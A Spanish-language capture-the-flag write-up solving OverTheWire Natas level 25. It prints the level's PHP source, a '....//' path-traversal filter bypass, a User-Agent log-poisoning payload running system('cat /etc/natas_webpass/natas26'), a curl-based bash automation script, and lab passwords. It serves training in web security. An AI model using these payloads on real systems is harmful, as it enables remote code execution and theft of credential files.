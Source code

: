 ```yaml
---
title: Natas-25
published: true
---
```


```
Url del reto: http://natas25.natas.labs.overthewire.org/index.php
login:natas25
 pass: GHF6X7YwACaYYssHVY05cFq83hRktl4c
```

Se nos presenta el siguiente código:

```php
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>
```

Las funciones que vamos a tener en cuenta son:

```php
function safeinclude()
function logRequest($message)
```

El primero que hice es intentar mediante ruta relativa llegar al fichero donde esta la pass que es en /etc/natas_webpass/natas26.
El problema es que cuando intentamos hacer una petición GET:

```
?lang=../../../../../etc/natas_webpass/natas26
```

Nos toparemos con el primer obstaculo de la función safeinclude()

```php
if(strstr($filename,"../")){
	logRequest("Directory traversal attempt! fixing request.");
	$filename=str_replace("../","",$filename);
}
```

Podemos saltarnos este filtro repitiendo la cadena ../

```
?lang=....//....//....//....//....//etc/natas_webpass/natas26
```

Y la función la dejará asi:

```
?lang=../../../../../etc/natas_webpass/natas26
```

Ahora nos encontramos con el siguiente obstáculo:

```php
if(strstr($filename,"natas_webpass")){
	logRequest("Illegal file access detected! Aborting!");
	exit(-1);
}
```
Si detecta la cadena natas_webpass, terminará el programa y no podremos acceder a la ruta deseada.
Me he peleado bastante intentando saltarme este filtro pero no lo conseguí. Intente:

```
escapar caracteres: natas_webpas\s
colocando espacios: natas_webpass%20
Añadiendo comodines: natas_webpas[a-z], natas_webpas?, /etc/natas*/natas26, /etc/*/natas26
Añadiendo codigos ascii: saltos de linea, null (%00)
```

Intenté entrar en diferentes archivos del sistema (logs, ficheros de configuración) para ver si habia alguna fuga de información.
Tambien intente acceder si habia alguna clave ssh en el directorio home /home/natas25/.ssh/id_rsa pero nada.

Decidí ver otra parte del código, la función listFiles no veia nada raro, asi que me centré en la función logRequest().

En esta función guarda logs de las sessiones. Asi que intente recopilar muchas cookies e ir insertanto querys para ver si en alguna cookie era de algún admin y poder ver alguna fuga de información pero tampoco conseguí nada.

Después de muchas vueltas no me estaba dando cuenta que cuando se accede a algun log. Que para ello hay que usar la ruta relativa:

```
?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_cookie.log
```

Se veian notificaciones de PHP:

```
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on
line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line
81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on
line 82
          
```

Asi que, pese a ser un fichero.log, esta ejecutando código PHP. Y viendo en la función logRequest() la siguiente linea:

```php
$log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
```

Viendo esto se me ocurrió algo. ¿Y si añadimos código PHP en este campo?:

```
user-agent: <?php phpinfo() ?>
```

Modifiqué desde el firefox la cabecera user-agent y funcionó

![](https://madmb.github.io/imgs/natas25-cap01.png)

Reenvie la petición pero esta vez con el código pertinente:

```
User-Agent: <?php system('cat /etc/natas_webpass/natas26')?>
```

Automatice todo el proceso mediante un script en bash:

```bash
#!/bin/bash

# /var/www/natas/natas25/logs/natas25_" . session_id() .".log"

# url principal
url_main='http://natas25.natas.labs.overthewire.org/index.php'

# Añadiremos al parametro User-Agent el codigo malicioso
payload="User-Agent: <?php system('cat /etc/natas_webpass/natas26')?>"

# hacemos una peticion para extraer la cookie
curl --cookie-jar cookie.txt -s -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c $url_main &>/dev/null
cookie=$(cat cookie.txt |tail -1| awk -F " " '{print $NF}')

# Esta consulta es para acceder al log de la cookie actual
query="?lang=....//....//....//....//....//var/www/natas/natas25/logs/natas25_$cookie.log"

# Lanzamos un curl para que ejecute el codigo php $payload
curl --cookie "PHPSESSID=$cookie" --header "$payload" -s -u natas25:GHF6X7YwACaYYssHVY05cFq83hRktl4c $url_main${query} | html2text
```

El resultado es:

```
admin1@php:~$ bash natas25.bash 


****** natas25 ******
                                                       [One of: language/en/de]
[07.05.2022 16::02:59] oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T "Directory traversal
attempt! fixing request."
Notice: Undefined variable: __GREETING in /var/www/natas/natas25/index.php on
line 80

Notice: Undefined variable: __MSG in /var/www/natas/natas25/index.php on line
81

Notice: Undefined variable: __FOOTER in /var/www/natas/natas25/index.php on
line 82
                                                                View_sourcecode
```

La pass para el siguiente nivel es:

```
natas26:oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
```

[Volver al archivo](archive)

